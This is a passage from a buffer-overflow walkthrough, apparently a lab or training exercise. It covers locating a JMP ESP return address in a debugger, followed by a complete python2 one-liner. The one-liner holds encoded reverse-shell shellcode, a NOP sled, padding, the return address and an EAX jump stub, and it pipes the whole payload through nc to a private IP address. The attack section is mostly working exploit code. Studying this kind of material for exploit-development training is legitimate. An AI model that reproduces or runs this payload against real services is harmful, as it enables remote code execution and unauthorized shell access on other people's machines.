 ![bo-048.png](/assets/images/bo-048.png)
**Figure 48** Crash again.

So now we need return address that jump to ESP since the instrunction to more to the EAX and add more 12 pattern inside it are locate at ESP, so again we going to Plugins>OpcodeSearcher>Opcode Search.

![bo-049.png](/assets/images/bo-049.png)
**Figure 49** Find the return address.

The return address is 0x081345d7, so now we have the following code that should give us reverse shell, we can use brackpoing on the return address value to test it.

```
python2 -c 'print "\x11(setup sound " + "\x90"*8 + "\xdb\xdc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x12\xb8\x6f\x0e\x8f\xae\x83\xee\xfc\x31\x46\x13\x03\x29\x1d\x6d\x5b\x84\xfa\x86\x47\xb5\xbf\x3b\xe2\x3b\xc9\x5d\x42\x5d\x04\x1d\x30\xf8\x26\x21\xfa\x7a\x0f\x27\xfd\x12\x50\x7f\x83\xc2\x38\x82\x7c\x03\x02\x0b\x9d\xb3\x12\x5c\x0f\xe0\x69\x5f\x26\xe7\x43\xe0\x6a\x8f\x35\xce\xf9\x27\xa2\x3f\xd1\xd5\x5b\xc9\xce\x4b\xcf\x40\xf1\xdb\xe4\x9f\x72"+"A"*4265+"\xd7\x45\x13\x08"+"\x83\xc0\x0c\xff\xe0\x90\x90"+"\x90\x00#"'| nc -nv 192.168.126.36 13327
```
